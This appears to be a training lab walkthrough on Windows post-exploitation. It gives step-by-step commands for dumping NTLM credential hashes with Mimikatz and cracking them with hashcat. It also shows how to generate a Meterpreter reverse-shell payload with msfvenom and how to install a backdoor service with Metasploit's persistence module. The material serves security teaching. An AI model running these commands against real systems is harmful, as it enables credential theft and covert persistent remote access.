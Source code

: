 # Introduction

## Start Machine

This room will cover all of the basics of post-exploitation; we'll talk about everything from post-exploitation enumeration with PowerView and BloodHound, dumping hashes and Golden Ticket attacks with Mimikatz, basic information gathering using Windows Server tools and logs. We will then wrap up this room by discussing the basics of maintaining access with the persistence Metasploit module and creating a backdoor into the machine to get an instant Meterpreter shell if the system is ever shut down or reset.

This room will be related to very real-world applications and will most likely not help with any CTFs. However, this room will provide great foundational knowledge on how to approach a network after gaining a shell on a machine.

To start this room, deploy the machine and proceed to the next section on enumerating with PowerView.

---

# Dumping Hashes w/ Mimikatz

Mimikatz is a very popular and powerful post-exploitation tool mainly used for dumping user credentials inside of an Active Directory network.

We'll be focusing on dumping the NTLM hashes with Mimikatz and then cracking those hashes using Hashcat.

I have already taken the time to put Mimikatz on the machine.

## Dump Hashes w/ Mimikatz

1. `cd Downloads && mimikatz.exe`  
   This will navigate into the directory where Mimikatz is kept as well as run the Mimikatz binary.

2. `privilege::debug`  
   Ensure that the output is `Privilege '20' ok`. This ensures that you're running Mimikatz as an administrator; if you don't run Mimikatz as an administrator, it will not run properly.

3. `lsadump::lsa /patch`  
   Dump those hashes!

## Crack Those Hashes w/ Hashcat

1. `hashcat -m 1000 <hash> rockyou.txt`

Mimikatz has many uses alongside being a great tool to dump hashes. We will cover another one of those ways of using Mimikatz in the next task by creating a Golden Ticket with Mimikatz.

---

# Maintaining Access

There are quite a few ways to maintain access on a machine or network. We will be covering a fairly simple way of maintaining access by first setting up a Meterpreter shell and then using the persistence Metasploit module, allowing us to create a backdoor service in the system that will give us an instant Meterpreter shell if the machine is ever shut down or reset.

There are also other ways of maintaining access such as advanced backdoors and rootkits; however, those are out of scope for this room.

This will require a little more manual setup than the other tasks, so it is recommended to have previous knowledge of `msfvenom` and Metasploit.

## Generating a Payload w/ msfvenom

1. `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_IP> LPORT=<your_port> -f exe -o shell.exe`  
   This will generate a basic Windows Meterpreter reverse TCP shell.

2. Transfer the payload from your attacker machine to the target machine.
3. `use exploit/multi/handler`  
   This will create a listener on the port that you set it on.
4. Configure our payload to be a Windows Meterpreter shell:  
   `set payload windows/meterpreter/reverse_tcp`
5. After setting your THM IP address as your `LHOST`, start the listener with `run`.
6. Executing the binary on the Windows machine will give you a Meterpreter shell back on your host.
7. Verify that we've got a Meterpreter shell, where we will then background it to run the persistence module.

## Run the Persistence Module

1. `use exploit/windows/local/persistence`  
   This module will send a payload every 10 seconds by default; however, you can set this time to anything you want.
2. `set session 1`  
   Set the session to the session that we backgrounded in Meterpreter (you can use the `sessions` command in Metasploit to list the active sessions).

If the system is shut down or reset for whatever reason, you will lose your Meterpreter session. However, by using the persistence module, you create a backdoor into the system, which you can access at any time using the Metasploit multi-handler and setting the payload to `windows/meterpreter/reverse_tcp`, allowing you to send another Meterpreter payload to the machine and open up a new Meterpreter session.

Here you can see the session die; however, the second we run the handler again, we get a Meterpreter shell back thanks to the persistence service.

There are other ways of maintaining access, such as adding users and rootkits. However, I will leave you to do your own research and labs on those topics.
